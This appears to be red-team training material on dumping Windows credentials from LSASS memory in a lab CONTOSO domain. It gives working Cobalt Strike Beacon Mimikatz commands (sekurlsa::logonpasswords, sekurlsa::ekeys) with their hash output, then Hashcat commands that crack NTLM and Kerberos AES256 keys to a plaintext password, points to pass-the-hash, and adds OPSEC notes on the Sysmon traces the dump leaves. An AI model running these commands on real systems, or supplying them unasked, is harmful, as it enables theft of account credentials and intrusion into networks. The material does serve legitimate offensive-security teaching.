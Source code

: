 
OS Credential Dumping is a technique [T1003](https://attack.mitre.org/techniques/T1003/) where an adversary extracts credential material, that are either stored or cached, from the Operating System.  Each sub-technique detailed here requires SYSTEM privileges to the computer.

### LSASS Memory

The Local Security Authority Subsystem Service (LSASS) on Windows is responsible for  verifying the credentials of users when logging in, handling password changes, creating access tokens, and so on.  An adversary may be able to read passwords cached inside memory of the LSASS process [T1003.001](https://attack.mitre.org/techniques/T1003/001/)

Microsoft provides something called the Security Support Provider Interface (SSPI), which is their implementation of the Generic Security Service API (GSSAPI).   SSPs are used to provide different authentication mechanisms for Windows, including:

- _NTLM_ for authentication via NTLM and NTLMv2.
- _Kerberos_ for authentication via Kerberos v5. 
- _Digest_ for Lightweight Directory Access Protocol (LDAP) and web authentication.
- _Schannel_ for authentication via public key cryptography, such as TLS and SSL.
- Credential Security Service Provider (_CredSSP_) for single sign-on with Terminal Services and Remote Desktop sessions.

Each SSP is implemented as separate DLLs, which are loaded by LSASS when the system starts.  Each SSP will therefore handle, structure, and credentials in different ways.  This is relevant to know, because some tools, such as Mimikatz, have specific commands depending on which SSP you want to read from.

An implementation of Mimikatz is built into Cobalt Strike.  The `mimikatz` command can be used to run any arbitrary Mimikatz command, and there are other commands which act as aliases for commonly-used functionality.  The command can also be pre-pended with a `!` or `@` character (which is unique to Cobalt Strike's implementation) which adds some extra steps.  Use `!` to make Mimikatz elevate to SYSTEM before running the specified command.  This is required by some commands, such as `lsadump::sam`.  Use `@` to make Mimikatz impersonate Beacon's thread token before running the specified command.  This is useful when impersonating users and running commands that interact with remote resources, such as `lsadump::dcsync`.

### NTLM Hashes

The `logonpasswords` command is an alias for `sekurlsa::logonpasswords` which can dump NTLM hashes for users that have recently authenticated to the computer.

```powershell
beacon> mimikatz sekurlsa::logonpasswords

User Name         : pchilds
Domain            : CONTOSO
Logon Server      : LON-DC-1
Logon Time        : 17/02/2025 09:45:28
SID               : S-1-5-21-3926355307-1661546229-813047887-1105
	msv :	
	 [00000003] Primary
	 * Username : pchilds
	 * Domain   : CONTOSO
	 * NTLM     : fc525c9683e8fe067095ba2ddc971889
	 * SHA1     : e53d7244aa8727f5789b01d8959141960aad5d22
	 * DPAPI    : 650b40d81e1d02eb6908bbcefcf78732

User Name         : rsteel
Domain            : CONTOSO
Logon Server      : LON-DC-1
Logon Time        : 17/02/2025 09:53:40
SID               : S-1-5-21-3926355307-1661546229-813047887-1108
	msv :	
	 [00000003] Primary
	 * Username : rsteel
	 * Domain   : CONTOSO
	 * NTLM     : fc525c9683e8fe067095ba2ddc971889
	 * SHA1     : e53d7244aa8727f5789b01d8959141960aad5d22
	 * DPAPI    : c249dfed28f9c95fa91792eed37d2444
```

These can be cracked using hash mode 1000 in Hashcat.

```powershell
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 1000 .\ntlm.hash .\example.dict -r .\rules\dive.rule fc525c9683e8fe067095ba2ddc971889:Passw0rd!
```

Or they can be used with the [pass-the-hash](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=6731fbc37399aa8c4905789c) technique.

### Kerberos Keys

Mimikatz's `sekurlsa::ekeys` command will dump user's Kerberos encryption keys.

```powershell
User Name         : pchilds
Domain            : CONTOSO
Logon Server      : LON-DC-1
Logon Time        : 17/02/2025 09:45:28
SID               : S-1-5-21-3926355307-1661546229-813047887-1105

	 * Username : pchilds
	 * Domain   : CONTOSO.COM
	 * Password : (null)
	 * Key List :
	   des_cbc_md4       7fae91afb4f60917ffa16c09283f3978ac71dff4e34d738d268bb49311f6c77d
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889

User Name         : rsteel
Domain            : CONTOSO
Logon Server      : LON-DC-1
Logon Time        : 17/02/2025 09:53:40
SID               : S-1-5-21-3926355307-1661546229-813047887-1108

	 * Username : rsteel
	 * Domain   : CONTOSO.COM
	 * Password : (null)
	 * Key List :
	   des_cbc_md4       05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
```

> Note that Mimikatz incorrectly labels each hash as _des_cbc_md4_.  The hash at the top has a length of 64 and is _aes256-cts-hmac-sha1-96_.  You may also see _aes128-cts-hmac-sha1-96_ and _rc4_hmac_ which are 32 in length.

You can technically crack AES256 but they are much slower compared to NTLM because they are salted.  My 4070 GPU benchmarks NTLM at 140 GH/s and AES256 at only 1375 kH/s.  The hash format required by Hashcat is `$krb5db$18$<username>$<DOMAIN-FQDN>$<hash>` and can be cracked using hash mode 28900.

```powershell
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 28900 .\sha256.hash .\example.dict -r .\rules\dive.rule
$krb5db$18$rsteel$CONTOSO.COM$05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960:Passw0rd!
```

# OPSEC

Dumping credentials from LSASS is generally a bad idea from an OPSEC perspective, and best avoided where possible.  Security drivers can use the [ObRegisterCallbacks](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-obregistercallbacks) kernel function to get notified when one process opens a handle to another process.  Here's an example log generated by Sysmon when credentials are dumped from LSASS.

```powershell
Process accessed:

SourceProcessId: 5744
SourceThreadId: 4724
SourceImage: C:\Windows\system32\rundll32.exe
TargetProcessId: 772
TargetImage: C:\Windows\system32\lsass.exe
GrantedAccess: 0x1010
CallTrace: C:\Windows\SYSTEM32\ntdll.dll+9d9b4|C:\Windows\System32\KERNELBASE.dll+338ae|UNKNOWN(00000202CDF78124)
SourceUser: NT AUTHORITY\SYSTEM
TargetUser: NT AUTHORITY\SYSTEM
```

> The **GrantedAccess** mask of `0x1010` is consistent with `PROCESS_QUERY_LIMITED_INFORMATION | PROCESS_VM_READ`, which are the minimum privileges required for reading memory.
